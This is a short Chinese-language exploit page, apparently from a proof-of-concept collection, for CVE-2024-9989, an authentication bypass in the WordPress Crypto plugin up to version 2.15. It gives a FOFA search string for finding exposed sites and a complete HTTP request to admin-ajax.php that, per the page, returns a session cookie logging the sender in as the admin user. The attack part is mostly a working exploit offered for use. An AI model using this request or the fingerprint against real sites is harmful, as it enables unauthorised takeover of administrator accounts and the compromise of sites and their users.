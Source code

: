 # WordPress插件Crypto身份认证绕过漏洞复现(CVE-2024-9989)

WordPress 的 Crypto 插件在 2.15 及以下版本（包括 2.15）中容易受到身份验证绕过攻击。这是由于对 'crypto_connect_ajax_process' 函数中 'crypto_connect_ajax_process：：log_in' 函数的任意方法调用有限。这使得未经身份验证的攻击者可以以站点上的任何现有用户（例如管理员）身份登录（如果他们有权访问用户名）

## fofa
```javascript
"wp-content/plugins/crypto/"
```

## poc
```javascript
GET /wp-admin/admin-ajax.php?action=crypto_connect_ajax_process&method_name=register&param1=admin HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501041352219.webp)

**成功会显示Success 并赋予Cookie 然后再访问/wp-admin 即可登入管理账号.**

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501041352673.webp)

## 漏洞来源

- https://mp.weixin.qq.com/s/hC8A1DeS-LWGpNIFKeiMBQ